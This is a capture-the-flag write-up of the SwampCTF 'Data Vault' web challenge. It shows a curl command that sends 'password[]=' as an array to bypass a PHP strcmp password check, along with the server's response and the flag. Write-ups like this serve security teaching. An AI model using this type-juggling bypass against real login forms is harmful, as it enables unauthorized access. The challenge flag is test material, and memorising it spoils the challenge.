

# Data Vault - Web

### [~$ cd ..](../)

>Andrew, a data courier and PHP diehard, has secret data that he can't have falling into the ZaibatsuCorp's hands. Fortunately, we've established an online datalink with his wetware.
>
>We've exposed the module's access interface here: chal1.swampctf.com:1233
>
>Can you bypass his CraniumStorage security module before he wakes up?
>
>-= Created by andrewjkerr =-

We were facing a web page containing only a simple form.



Source code of the page:

```html
<html>
<head>
    <!-- You won't find any help here :) -->
    <title>Andrew's Secret Image Storage!</title>
</head>
<body>
    <h1>Andrew's Secret Image Storage!</h1>
    <p>Hello visitor! If I, Andrew, have given the password to view my image, please enter it below. If not, please kindly leave this site. :)</p>
    <br />
    <form action="/" method="POST">
        <label>What's the password?</label>
        <input type="text" name="password" />
        <input type="submit" value="Submit" />
    </form>

    </body>
</html>
```

No `robots.txt` nor obvious files, no useful headers, not a trivial password. The solution (or one possible solution, at least) was actually to bypass the password checking by sending an array instead of a single password:

```bash
~$ curl --data "password[]=" http://chal1.swampctf.com:1233/
```

The response came back with the flag:

```html
<html>
<head>
    <!-- You won't find any help here :) -->
    <title>Andrew's Secret Image Storage!</title>
</head>
<body>
    <h1>Andrew's Secret Image Storage!</h1>
    <p>Hello visitor! If I, Andrew, have given the password to view my image, please enter it below. If not, please kindly leave this site. :)</p>
    <br />
    <form action="/" method="POST">
        <label>What's the password?</label>
        <input type="text" name="password" />
        <input type="submit" value="Submit" />
    </form>

    <br />
<b>Warning</b>:  strcmp() expects parameter 2 to be string, array given in <b>/var/www/html/index.php</b> on line <b>36</b><br />
<p>You got it! Here's your image:</p><p>And here's your flag: flag{wHy_d03S-php_d0-T41S}</p></body>
</html>
```

FLAG: **flag{wHy_d03S-php_d0-T41S}**

and the secret image:


EOF
